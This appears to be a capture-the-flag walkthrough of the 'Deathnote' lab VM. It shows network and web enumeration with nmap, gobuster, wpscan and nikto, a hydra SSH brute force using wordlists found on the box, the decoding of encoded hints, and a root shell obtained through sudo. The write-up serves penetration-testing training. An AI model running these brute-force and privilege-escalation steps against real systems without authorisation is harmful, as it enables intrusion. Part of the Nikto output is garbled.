

```
sudo netdiscover -i eth0 -r 192.168.97.0/24
```

```
rustscan -a 192.168.97.5
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:DB:01:18 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

```
nmap -sV -p 22,80 192.168.97.5
```
``
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 06:09 EDT
Nmap scan report for 192.168.97.5 (192.168.97.5)
Host is up (0.00049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:DB:01:18 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```


Browser
192.168.97.5:80

Error

```
# Hmm. We’re having trouble finding that site.
```


sudo nano /etc/hosts

192.168.97.5    deathnote.vuln

In browser
http://deathnote.vuln
Note: without the http, the browser might want to automatically do a Google search on your url



It forwards me to deatnote.vuln/wordpress

This shows there is indeed a webserver running.
Let's see what files and folders can be identified.

```
gobuster dir -u deathnote.vuln/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
┌──(mkuipers㉿kali)-[~]
└─$ gobuster dir -u deathnote.vuln/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://deathnote.vuln/wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 331] [--> http://deathnote.vuln/wordpress/wp-content/]                                                         
/wp-includes          (Status: 301) [Size: 332] [--> http://deathnote.vuln/wordpress/wp-includes/]                                                        
/wp-admin             (Status: 301) [Size: 329] [--> http://deathnote.vuln/wordpress/wp-admin/]                                                           
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

---
Since we know wordpress is running, let's see what can be found about it.

```
wpscan --url http://deathnote.vuln/wordpress
```

```
[+] Upload directory has listing enabled: http://deathnote.vuln/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
```

---

```
 dirb http://deathnote.vuln /usr/share/wordlists/dirb/common.txt
```

It provides a lot of output, but one important part is the following:

```
!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                            
---- Entering directory: http://deathnote.vuln/wordpress/wp-content/uploads/ ----
```

---

If you click on HINT you are redirected to

deatnote.vuln/wordpress/index.php/hint

This page displays the following text

![[imgs/2.png]]

---

Enumerate the webserver for vulnerabilities

```
nikto -h deathnote.vuln
```

```
└─$ nikto -h deathnote.vuln
- Nikto v2.5.0
--------------------------------------------------------
+ Target IP:          192.168.97.5
+ Target Hostname:    deathnote.vuln
+ Target Port:        80
+ Start Time:         2025-05-18 14:26:57 (GMT-4)
--------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not//developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Fr
+ /: The X-Content-Type-Options header is not set. This agent to render the content of the site in a different fpe. See: https://www.netsparker.com/web-vulnerability-sc/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check 
+ /: Server may leak inodes via ETags, header found withize: 5cb285991624e, mtime: gzip. See: http://cve.mitre.oi?name=CVE-2003-1418
+ Apache/2.4.38 appears to be outdated (current is at lepache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: OPTIONS, HEAD, GET, POS
+ /manual/: Web server manual found.
+ /manual/images/: Directory indexing found.
+ /icons/README: Apache default file found. See: https:/che-restricting-access-to-iconsreadme/
+ /wordpress/wp-content/plugins/akismet/readme.txt: The gin 'Tested up to' version usually matches the WordPress
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.                            
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.                        
+ /wordpress/: Drupal Link header found with value: <http://deathnote.vuln/wordpress/index.php/wp-json/>; rel="https://api.w.org/". See: https://www.drupal.org/        
+ /wordpress/: A Wordpress installation was found.      
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies                                                       
+ /wordpress/wp-content/uploads/: Directory indexing found.                                                     
+ /wordpress/wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information.                                                      
+ /wordpress/wp-login.php: Wordpress login found.       
+ 7963 requests: 0 error(s) and 17 item(s) reported on remote host                                              
+ End Time:           2025-05-18 14:27:57 (GMT-4) (60 seconds)                                                  
---------------------------------------------------------------------------                                     
+ 1 host(s) tested
```

---
When you visit this page, you'll see the following

![[imgs/3.png]]
![[imgs/4.png]]
![[imgs/5.png]]

At the bottom, you see notes.txt and user.txt

```
http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
```

```
KIRA
L
ryuk
rem
misa
siochira 
light
takada
near
mello
l
kira
RYUK
REM
SIOCHIRA
LIGHT
NEAR
```

```
http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```

```
death4
death4life
death4u
death4ever
death4all
death420
death45
death4love
death49
death48
death456
death4014
1death4u
yaydeath44
thedeath4u2
thedeath4u
stickdeath420
reddeath44
megadeath44
megadeath4
killdeath405
hot2death4sho
death4south
death4now
death4l0ve
death4free
death4elmo
death4blood
death499Eyes301
death498
death4859
death47
death4545
death445
death444
death4387n
death4332387
death42521439
death42
death4138
death411
death405
death4me
```

---
Inspect robots.txt

http://deathnote.vuln/robots.txt

```
fuck it my dad 
added hint on /important.jpg

ryuk please delete it
```

---

Inspect important.jpg

http://deathnote.vuln/important.jpg

```
The image “http://deathnote.vuln/important.jpg” cannot be displayed because it contains errors.
```

Download it and inspect it?

```
cd ;
cd Downloads ;
wget http://deathnote.vuln/important.jpg ;
```

```
`file important.jpg
````
```
└─$ file important.jpg                                                   
important.jpg: ASCII text
```

The file consists of ASCII text.

```
cat important.jpg
```

```
└─$ cat important.jpg                                                        
i am Soichiro Yagami, light's father
i have a doubt if L is true about the assumption that light is kira

i can only help you by giving something important

login username : user.txt
i don't know the password.
find it by yourself 
but i think it is in the hint section of site
```

This suggests we might need to bruteforce something.
The username is probably somewhere in user.txt.
We also had another .txt file, named notes.txt.
Could notes.txt contain the password?

---
Try bruteforcing SSH

```
hydra -L user.txt -P notes.txt ssh://192.168.97.5
```

```
login: l
password: death4me
```

---


```
ssh l@192.168.97.5
```

```
death4me
```


```
l@deathnote:~$ ls
user.txt
```

```
l@deathnote:~$ cat user.txt 
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```

This is clearly a code.
Let's use `https://www.dcode.fr/cipher-identifier` to find out what cypher was used.

![[imgs/6.png]]

Reverse cipher the brainfuck code on `https://www.dcode.fr/brainfuck-language`

The result is:

```
i think u got the shell , but you wont be able to kill me -kira
```

So we are getting close, but the box is not yet over.

Browsing around

```
l@deathnote:~$ ls
user.txt
l@deathnote:~$ cd ..
l@deathnote:/home$ ls
kira  l
l@deathnote:/home$ cd kira/
l@deathnote:/home/kira$ ls
kira.txt
l@deathnote:/home/kira$ cat kira.txt 
cat: kira.txt: Permission denied
l@deathnote:/home/kira$ su -
Password: 
su: Authentication failure
l@deathnote:/home/kira$ 
```

Nothing.

While browsing in other directories, something was found.

```
l@deathnote:/home$ cd ..
l@deathnote:/$ ls
bin         initrd.img.old  media  sbin  vmlinuz
boot        lib             mnt    srv   vmlinuz.old
dev         lib32           opt    sys
etc         lib64           proc   tmp
home        libx32          root   usr
initrd.img  lost+found      run    var
l@deathnote:/$ cd opt/
l@deathnote:/opt$ ls
L
l@deathnote:/opt$ cd L
l@deathnote:/opt/L$ ls
fake-notebook-rule  kira-case
l@deathnote:/opt/L$ cd fake-notebook-rule/
l@deathnote:/opt/L/fake-notebook-rule$ ls
case.wav  hint
l@deathnote:/opt/L/fake-notebook-rule$ cd ..
l@deathnote:/opt/L$ cd kira-case/
l@deathnote:/opt/L/kira-case$ ls
case-file.txt
l@deathnote:/opt/L/kira-case$ cat case-file.txt 
the FBI agent died on December 27, 2006

1 week after the investigation of the task-force member/head.
aka.....
Soichiro Yagami's family .


hmmmmmmmmm......
and according to watari ,
he died as other died after Kira targeted them .


and we also found something in 
fake-notebook-rule folder .
```

So this tells us to start looking in the fake-notebook-rule directory.

```
l@deathnote:/opt/L/kira-case$ cd ..
l@deathnote:/opt/L$ ls
fake-notebook-rule  kira-case
l@deathnote:/opt/L$ cd fake-notebook-rule/
l@deathnote:/opt/L/fake-notebook-rule$ ls
case.wav  hint
l@deathnote:/opt/L/fake-notebook-rule$ cat hint 
use cyberchef

l@deathnote:/opt/L/fake-notebook-rule$ cat case.wav 
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
```

I used cyberchef to decode the code.

![[imgs/7.png]]

```
passwd : kiraisevil
```

```
kiraisevil
```

Could this be the password to the kira user account?


```
l@deathnote:/opt/L/fake-notebook-rule$ su kira
Password: 
kira@deathnote:/opt/L/fake-notebook-rule$ 
```

It works!

```
kira@deathnote:/opt/L/fake-notebook-rule$ cd
kira@deathnote:~$ ls
kira.txt
kira@deathnote:~$ cat kira.txt 
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
kira@deathnote:~$ 
```

```
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
```

This looks like another code.

Find out how it was encoded using `https://www.dcode.fr/cipher-identifier`

It suggests it is encoded using base64.

Let's decode it using `https://www.dcode.fr/base-64-encoding`

```
please protect one of the following  
1. L (/opt)  
2. Misa (/var)
```

```
kira@deathnote:~$ cd /var
kira@deathnote:/var$ ls
backups  lib    lock  mail  opt  spool  www
cache    local  log   misa  run  tmp
kira@deathnote:/var$ cat misa
it is toooo late for misa
```

Okay. I am stuck.

Let's see what this kira user account can do.

```
kira@deathnote:/root$ whoami
kira
kira@deathnote:/root$ id
uid=1001(kira) gid=1001(kira) groups=1001(kira),27(sudo)
```

kira is part of the sudo group (27). This grants the ability to run commands as root using sudo.

---
Let's see if we can start the shell as root by simply using sudo.

```
kira@deathnote:/opt/L/fake-notebook-rule$ sudo /bin/bash
```

```
root@deathnote:/opt/L/fake-notebook-rule# 
```

It worked!

```
root@deathnote:/opt/L/fake-notebook-rule# ls
case.wav  hint
root@deathnote:/opt/L/fake-notebook-rule# cd
root@deathnote:~# ls
root.txt
root@deathnote:~# cat root.txt 


      ::::::::       ::::::::       ::::    :::       ::::::::       :::::::::           :::    :::::::::::       :::::::: 
    :+:    :+:     :+:    :+:      :+:+:   :+:      :+:    :+:      :+:    :+:        :+: :+:      :+:          :+:    :+: 
   +:+            +:+    +:+      :+:+:+  +:+      +:+             +:+    +:+       +:+   +:+     +:+          +:+         
  +#+            +#+    +:+      +#+ +:+ +#+      :#:             +#++:++#:       +#++:++#++:    +#+          +#++:++#++   
 +#+            +#+    +#+      +#+  +#+#+#      +#+   +#+#      +#+    +#+      +#+     +#+    +#+                 +#+    
#+#    #+#     #+#    #+#      #+#   #+#+#      #+#    #+#      #+#    #+#      #+#     #+#    #+#          #+#    #+#     
########       ########       ###    ####       ########       ###    ###      ###     ###    ###           ########       

##########follow me on twitter###########3
and share this screen shot and tag @KDSAMF
root@deathnote:~# 
```